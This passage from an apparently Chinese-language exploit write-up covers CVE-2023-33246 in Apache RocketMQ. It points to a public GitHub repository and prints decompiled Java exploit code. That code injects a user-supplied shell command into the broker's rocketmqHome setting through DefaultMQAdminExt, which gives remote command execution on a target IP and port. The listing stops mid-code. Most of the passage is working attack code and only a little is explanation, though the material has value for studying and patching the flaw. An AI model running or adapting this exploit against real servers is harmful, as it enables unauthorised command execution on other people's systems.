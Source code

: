 
JAVA

在java中有已经封装好的依赖，在https://github.com/Le1a/CVE-2023-33246中可以发现

![image-20230619184812583](images/24.png)

用到了org.apache.rocketmq.tools.admin.DefaultMQAdminExt

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.le1a;

import java.util.Properties;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

public class Main {
    public Main() {
    }

    public static void main(String[] args) throws Exception {
        String cmd = null;
        String IP = null;
        String Port = null;
        String tmp = null;

        for(int i = 0; i < args.length; ++i) {
            if (args[i].equals("-ip") && i < args.length - 1) {
                tmp = args[i + 1];
            } else if (args[i].equals("-cmd") && i < args.length - 1) {
                cmd = args[i + 1];
            }
        }

        if (tmp != null && cmd != null) {
            String[] ip_port = tmp.split(":");
            if (ip_port.length == 2) {
                IP = ip_port[0];
                Port = ip_port[1];
            } else {
                System.out.println("参数输入有误，请检查!");
            }

            Properties props = new Properties();
            props.setProperty("rocketmqHome", "-c $@|sh . echo " + cmd + ";");
            props.setProperty("filterServerNums", "1");
            DefaultMQAdminExt admin = new DefaultMQAdminExt();
            admin.setNamesrvAddr("1.1.1.1:9876");
            admin.start();
            Properties brokerConfig = admin.getBrokerConfig(IP + ":" + Port);
```